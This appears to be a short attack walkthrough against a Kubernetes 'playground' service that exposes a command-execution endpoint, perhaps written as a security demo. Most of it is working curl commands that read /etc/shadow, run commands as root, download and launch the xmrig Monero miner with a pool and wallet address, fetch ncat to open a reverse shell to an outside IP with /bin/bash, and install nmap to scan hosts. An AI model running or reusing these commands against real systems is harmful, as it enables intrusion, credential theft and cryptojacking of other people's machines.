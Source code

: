 # Find out url:port
LOAD_BALANCER_URL=$(kubectl get svc playground -n default -o json | jq -r .status.loadBalancer.ingress[].ip)
PORT=80

# Read the file /etc/shadow
```
curl $LOAD_BALANCER_URL:$PORT/etc/shadow
```

# Get a list of files
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=ls -la'
```

# Get my user (we are root)
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=uname -a'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=whoami'
```

# Istall cryptominer
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=wget -O file.tar.gz https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=tar -xvf file.tar.gz'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=sleep 1 && nohup ./xmrig-6.16.4/xmrig --donate-level 100 -o xmr-us-east1.nanopool.org:14433 -k -u 422skia35WvF9mVq9Z9oCMRtoEunYQ5kHPvRqpH1rGCv1BzD5dUY4cD8wiCMp4KQEYLAN1BuawbUEJE99SNrTv9N9gf2TWC --tls --coin monero'
```

# Check that cryptominer is installed
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=ps -aux'
```

# Open reverse shell
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=chmod +x ncat'
sleep 1 && nohup curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=./ncat 34.77.63.85 34444 -e /bin/bash' &> /dev/null & nc -lnvp 34444
```

# Install nmap and scan hostts
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=apt-get update; apt-get -y install nmap'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=nmap -v scanme.nmap.org'
```





